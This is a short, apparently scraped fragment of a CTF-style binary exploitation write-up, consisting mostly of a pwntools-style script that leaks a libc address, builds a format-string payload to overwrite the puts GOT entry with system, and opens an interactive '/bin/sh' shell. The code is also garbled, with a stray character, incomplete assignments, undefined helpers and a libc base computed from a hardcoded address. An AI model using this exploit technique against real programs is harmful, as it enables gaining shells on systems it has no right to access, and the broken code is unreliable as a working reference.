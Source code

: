 ```bash

r
puts_addr=l32
puts_real=0x804a028
#0x804a028
leak('puts',puts)
pause()

libcbase=0x804a028-puts_libc

leak('libcbase',libcbase)

system_addr=libcbase+libc.symbols['system']

payload = fmtstr_payload(7, {puts:system_addr})
put('/bin/sh', payload)
get('/bin/sh')

p.sendline('dir')
p.interactive()
```

[![](assets/1701612281-6d1294300ae8800e6460db012f5e1e27.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223935-eab0d448-2578-1.png)
